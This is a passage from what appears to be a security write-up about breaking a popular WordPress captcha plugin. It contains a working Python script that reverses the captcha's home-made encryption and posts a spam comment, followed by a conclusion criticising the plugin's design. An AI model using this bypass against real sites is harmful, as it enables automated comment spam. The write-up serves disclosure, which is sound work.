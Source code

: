             el= dom.find_class('form-submit')[0]
            for c in el.getchildren():
                    try:
                            if c.attrib['name'] == 'comment_post_ID':
                                    post_id = c.attrib['value']
                            if c.attrib['name'] == 'comment_parent':
                                    comment_parent = c.attrib['value']
                    except KeyError:
                            pass

            print('[+] Captcha is "{}"'.format(captcha))
            
            # Try to crickiticrack it :P [Well we just use the decode() functon]
            solution = reverse(result, KEY, time)
            
            print('[+] Found solution: "{}"'.format(solution))
            
            # No write a comment with the cracked captcha to proof that we provided the
            # correct solution.
            payload = {'author': 'spammer', 'email': 'spammer@spamhouse.org', 'url': 'http://spamming.com',
            'cptch_result': result, 'cptch_time': time, 'cptch_number': solution,
            'comment': "Hi there! No protection from spammers!!!!:D", 'submit': 'Post+Comment',
            'comment_post_ID': post_id, 'comment_parent': comment_parent}

            try:
                    r = requests.post(COMMENT_POST, data=payload)
            except requests.ConnectionError as cerr:
                    print('Network problem occured: {}'.format(cerr))
            except requests.Timeout as terr:
                    print('Connection timeout: {}'.format(terr))
            if not r.ok:
                    print('HTTP Error:', r.status_code)

### Conclusion

Let me summarize:

-   The captcha implementation of the plugin is bad because it does not
    prevent computers from solving it (The idea behind serving
    mathematical equations in this form is highly debatable).
-   The captcha author implements his own encryption function, which is
    almost always a very bad idea as long as your name is not Bruce
    Scheier or you aren't a mathematician.
-   The captcha plugin stores clear text passwords in the source code
    visible to anyone.
-   The captcha plugin has a very big user base (Over one million
    downloads) and a alarming high rating.
-   The [authors](http://bestwebsoft.com/ "BestWebSoft") earn money with
    this shitty software and the users are left completely unsecured.
